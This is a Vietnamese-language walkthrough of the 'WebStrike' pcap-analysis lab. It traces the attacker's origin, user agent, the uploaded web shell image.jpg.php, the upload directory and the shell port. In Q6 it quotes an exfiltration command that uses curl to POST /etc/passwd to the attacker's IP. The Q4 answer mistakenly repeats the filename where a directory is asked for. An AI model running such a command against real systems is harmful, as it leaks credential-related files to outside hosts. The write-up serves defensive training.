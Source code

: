 #  WebStrike

> An anomaly was discovered within our company's intranet as our Development team found an unusual file on one of our web servers. Suspecting potential malicious activity, the network team has prepared a pcap file with critical network traffic for analysis for the security team, and you have been tasked with analyzing the pcap.

> Tools: Wireshark

## Q1: Understanding the geographical origin of the attack aids in geo-blocking measures and threat intelligence analysis. What city did the attack originate from?

+ attacker xác định qua conversations port của ip attacker là 117.11.88.124

  ![image](https://github.com/user-attachments/assets/7a13e7e8-83a4-43a5-974e-5095b29b656d)

=> xác định xong bên connect là attacker đến victim location ta sẽ check trên Internet protocol trên detail 

![image](https://github.com/user-attachments/assets/c79940d2-6a43-4b22-b2c6-2c23b44a70b0)

=> Anwser : city_Tianjin

## Q2: Knowing the attacker's user-agent assists in creating robust filtering rules. What's the attacker's user agent?

+ xác định user-agent là thông tin về browser của attacker ip ta cần check về thông tin gói tin HTTP get request

+ gói tin GET sẽ chứa dữ liệu của ip attacker source đang send request đến victim

  ![image](https://github.com/user-attachments/assets/02d4cec8-eede-4a93-9455-003b5c35f3ba)

=> ip attacker đang vào trang shoporoma với user-agent

=> Anwser: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

## Q3: We need to identify if there were potential vulnerabilities exploited. What's the name of the malicious web shell uploaded?

+ xác định tên web shell được upload lên hệ thống => ta cần tìm response trả về file upload

+ file upload thường sẽ sử dụng method post để upload file

![image](https://github.com/user-attachments/assets/352630a3-167c-4a2a-946c-b08c4b9f3b73)

=> ta có thể thấy file đã trả về upload successful nên ta có thể nhận định file name = image.jpg.php có thể nó bypass extension filter format 

=> Anwser: image.jpg.php 

## Q4: Knowing the directory where files uploaded are stored is important for reinforcing defenses against unauthorized access. Which directory is used by the website to store the uploaded files?

+ trong web thì thư mục sẽ được lưu trữ ở root directory cụ thể trên web server => /html/www

+ với file đã uploads ta có thể xác định nó lưu trữ ở mục /uploads/ nhưng ta cần phải check cả gói tin vì có thư mục cha đằng trước nó

  ![image](https://github.com/user-attachments/assets/1cf0a1e0-6d0c-45d2-8810-7017a3fca8ad)

=> path /reviews/uploads/image.jpg.php => /reviews/uploads/ đang lưu trữ image.jpg.php

=> Anwser: image.jpg.php 

## Q5: Identifying the port utilized by the web shell helps improve firewall configurations for blocking unauthorized outbound traffic. What port was used by the malicious web shell? 

+ conversations cho ta thông tin về port 8080 đang chiếm nhiều lưu lượng gói tin nhất trong traffic

+ nhận định port 8080 thường là port dự phòng do attacker tạo ra để tránh phát hiện hệ thống giám sát trên các port thông thường và giảm xung đột

  ![image](https://github.com/user-attachments/assets/70024d7d-4de5-433a-9bf3-cc3b46ec81bf)

=> có vẻ sau khi uploads shell code attacker đã thực thi 1 số command trên port lắng nghe là 8080 

=> Anwser: 8080 

## Q6: Understanding the value of compromised data assists in prioritizing incident response actions. What file was the attacker trying to exfiltrate?

+ qua Q5 ta thấy attacker đang cố gắng trích xuất ra file chứa thông tin về user của hệ thông bằng /etc/passwd

+ có thể attacker đang cố gắng lấy đi tệp tin đó bằng câu lệnh

      curl -X POST -d /etc/passwd http://117.11.88.124:443/

=> Anwser: passwd
